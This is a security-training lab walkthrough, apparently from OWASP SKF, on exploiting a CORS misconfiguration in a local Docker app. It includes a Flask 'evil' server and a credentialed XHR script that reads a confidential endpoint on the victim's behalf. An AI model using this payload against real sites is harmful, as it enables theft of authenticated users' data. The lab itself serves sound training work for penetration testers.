





# CORS exploitation

## Running the app on Docker

```text
$ sudo docker pull blabla1337/owasp-skf-lab:cors
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```


Now that the app is running let's go hacking!


## Reconnaissance

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a '\*' wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed.

Nowadays most modern frameworks do dynamical allocation of the origin header. This means that the value that is send from the origin header is dynamically allocated to the Access-Control-Allow-Origin response from the server. To verify the behaviour we need to set up our intercepting proxy, make requests to an API server and tamper with the "origin" header.

Now that we have our proxies set-up let's first start and authenticate against the target application as the regular user.



username : admin  
password: admin




Now that we have logged in as the target user let's look at some intercepted traffic from the application.



The image above shows highlighted in red that indeed the application has CORS enabled and has set a wildcard for the "Access-Control-Allow-Origin" response header.

Now if we add a "Origin" request header we find that the value from the added Origin header is dynamically allocated to the "Access-Control-Allow-Origin" header.


The rest of the attack wil look kind of similar to a CSRF attack. However, instead of doing a state changing operation on behalf of the targeted user, we will now do a XHR GET request from our evil domain in order to steal sensitive information.


More information about CSRF:  
[https://www.owasp.org/index.php/Testing_for_CSRF\_\(OTG-SESS-005\)](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)


## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious XHR GET request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, render_template
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious XHR GET request.

```javascript
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','http://localhost:5000/confidential', true);
  req.withCredentials = true;
  req.send();

  function reqListener(){
    var foo = document.getElementById("stolenInfo").innerHTML= req.responseText;
    Console.log(foo)
  }
</script>

<p id="stolenInfo"></p>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Let's intercept the request from the evil application to the target application.

In this request we find the "Origin" header appended to the request from source "[http://localhost:1337](http://localhost:1337)" as to be expected. It is now good to note when we remove this header from the request the attack is no longer working.



This is due to the fact that the application framework has no value to do the dynamically allocation of the origin header from. Now the "Access-Control-Allow-Origin" response header falls back to it's default which is the "\*" \(wildcard\).

Now, whenever the browser discovers the following header combination:

```text
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

It triggers a hidden safety catch in CORS.



This disallows the developer to disable the SOP entirely and expose your site to everyone. At least so the browser thinks, because we have obviously already seen that the dynamically allocation of the origin header achieves the same effect!

Now we refresh the page and let our evil script perform the request as intended!



We now find that we have successfully have performed a XHR GET request on the authenticated victim users behalf and stolen the sensitive information from the target application!

## Additional sources

Please read here for more information about this attack:  
[https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
